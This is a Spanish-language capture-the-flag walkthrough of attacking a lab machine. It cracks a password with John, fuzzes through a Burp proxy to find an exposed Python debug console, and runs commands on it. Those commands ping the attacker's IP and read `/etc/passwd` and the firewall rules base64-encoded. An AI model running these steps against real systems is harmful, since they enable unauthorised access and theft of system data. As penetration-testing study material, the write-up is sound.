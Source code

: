 ## Evaluacion de vulnerabilidades {-}

### John {-}

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords
```

Ya hemos crackeado la contraseña. Intentamos conectar por ssh pero no funciona.

Pues ponemos las credenciales en el foxyproxy.

### Conectamos por la web a la 127.0.0.1 {-}

Hay una pagina que propone shortear una url. Vamos a testear el servicio web

1. Nos creamos un servidor web con python

    ```bash
    python -m http.server 80
    ```
1. En el servicio intentamos shortear la url `http://10.10.14.20/test`

No hace nada. Vemos en el codigo fuente que hay un recurso `/list`. La idea aqui es aplicar fuzzing. Como tenemos que pasar
por un proxy, vamos a utilizar **Burp** para conectar el fuzzer con el proxy.

1. Creamos un Proxy Server.

    - En la pagina **User options** de Burp, creamos un proxy server

        ```{r, echo = FALSE, fig.cap="BurpSuite: create proxy server", out.width="90%"}
            knitr::include_graphics("images/burp-create-proxy-server.png")
        ```

1. Añadir el puerto 80 para utilizar **curl** y **wfuzz**

    ```{r, echo = FALSE, fig.cap="BurpSuite: create proxy server 1", out.width="90%"}
        knitr::include_graphics("images/burp-add-port-80-1.png")
    ```

    ```{r, echo = FALSE, fig.cap="BurpSuite: create proxy server 2", out.width="90%"}
        knitr::include_graphics("images/burp-add-port-80-2.png")
    ```

1. Testeamos con **curl**

    ```bash
    curl -s http://127.0.0.1 | html2text
    ```

Ya no nos pone el mensaje de error `Conexion reusada`, quiere decir que el server proxy que hemos creado con
BurpSuite funciona. Ya podemos aplicar fuzzing.

### WFUZZ {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2-3-medium.txt http://127.0.0.1/FUZZ
```

Encontramos el recurse `/console`

### Consola Interactiva {-}

Estamos en frente de una consola interactiva donde se puede ejecutar code en python

```python
import os

os.system('whoami')
#Output
0
```

En este caso la respuesta al lado del servidor es `0`. Suponemos que la respuesta es el codigo de estado. Utilizamos la funccion
`os.popen(<command>).read()` para ver el output normal.

```python
os.popen('whoami').read()
#Output
'Werkzeug'
```

El comando funcionna. Ahora intentamos **pingear** nuestra maquina de atacante.

1. en la maquina de atacante

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. En la consola interactiva python

    ```python
    os.system('ping -c 1 10.10.14.20')
    ```

Recibimos la trasa ICMP.

Intentamos recuperar ficheros de la maquina victima antes de entablar una reverse shell. Como el comando
`os.popen('cat /etc/passwd').read()` nos retorna el resultado en una linea y que no es muy legible, S4vi nos
recomienda encriptar la respuesta en base 64 para despues decodificarlo en la maquina de atacante con el comando
`echo "<cadena codificada en base64>" | base64 -d; echo`

```python
os.popen('base64 -w 0 /etc/passwd').read()
os.popen('base64 -w 0 /etc/iptables/rules.v4').read()
```

El iptables nos muestra con la linea `-A OUTPUT -o ens33 -p tcp -m state --state NEW -j DROP` que la maquina victima nos
va a rechazar todas las comunicaciones por **TCP**. Es por esta razon que no hemos creado directamente una reverse shell.
 